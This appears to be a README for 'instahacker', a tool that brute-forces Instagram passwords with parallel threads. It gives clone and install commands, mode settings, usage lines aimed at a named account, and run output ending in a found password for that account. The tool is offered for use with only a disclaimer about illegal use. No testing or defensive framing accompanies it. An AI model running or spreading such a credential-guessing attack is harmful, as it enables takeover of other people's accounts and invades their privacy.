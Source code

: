 # instahacker
# youtube : FR13NDS DZ
# facebook : Phoenix Pw
# github : PHOENIX7713
# twitter : ShadowDz5
# instagram : zodiac2372
# Note! : We don't Accept any responsibility for any illegal usage.

git clone https://github.com/PHOENIX7713/instahacker.git

cd instahacker

pip3 install -r requirements.txt

# Help

C:\Users\Moussa\Desktop\Instagram>python3 instahack.py -h
usage: instahack.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots

# Usage

python3 instahack.py <username> <wordlist> -m <mode>

# Bots(Threads)

    4 bots: 64 passwords at a time
    8 bots: 128 passwords at a time
    16 bots: 256 passwords at a time
    32 bots: 512 passwords at a time

# Modes

    0: 32 bots
    1: 16 bots
    2: 8 bots
    3: 4 bots

# Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

C:\Users\Moussa\Desktop\Instagram>python3 instahack.py Sami09.1 pass.lst -m 3

# Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

C:\Users\Moussa\Desktop\Instagram>python3 instahack.py Sami09.1 pass.lst -m 2

# Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

C:\Users\Moussa\Desktop\Instagram>python3 instahack.py Sami09.1 pass.lst -m 1

# Savage mode

This mode uses 32 bots, or 512 passwords at a time.

C:\Users\Moussa\Desktop\Instagram>python3 instahack.py Sami09.1 pass.lst -m 0

If you don't specify a mode, then mode is set to 2
# Run

[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True

# Stop

[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
